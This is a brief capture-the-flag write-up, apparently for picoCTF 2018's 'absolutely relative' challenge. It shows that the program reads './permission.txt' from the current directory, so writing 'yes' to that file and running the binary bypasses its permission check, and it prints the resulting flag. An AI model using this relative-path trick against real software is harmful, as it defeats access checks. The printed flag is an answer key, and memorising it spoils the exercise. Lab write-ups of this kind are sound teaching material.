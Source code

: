> absolutely relative - Points: 250 - (Solves: 499)
> In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this program? You can find it in /problems/absolutely-relative_3_c1a43555f1585c98aab8d5d2c7f0f9cc on the shell server. Source.

From the source file we can see that the permissions are being read from a permissions which is open relative to where the program has been executed.
`file = fopen( "./permission.txt" , "r");`

This mean we can create an arbitrary file in a folder we control and run the program from there. It will use the file we create to read the permissions from.

In order to get the flag printed we need to have a file with the permission "yes" as such:

```
nsa@pico-2018-shell-1:~$ echo "yes" > permission.txt
nsa@pico-2018-shell-1:~$ /problems/absolutely-relative_3_c1a43555f1585c98aab8d5d2c7f0f9cc/absolutely-relative
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_6193e4db}
```

Flag: `picoCTF{3v3r1ng_1$_r3l3t1v3_6193e4db}`
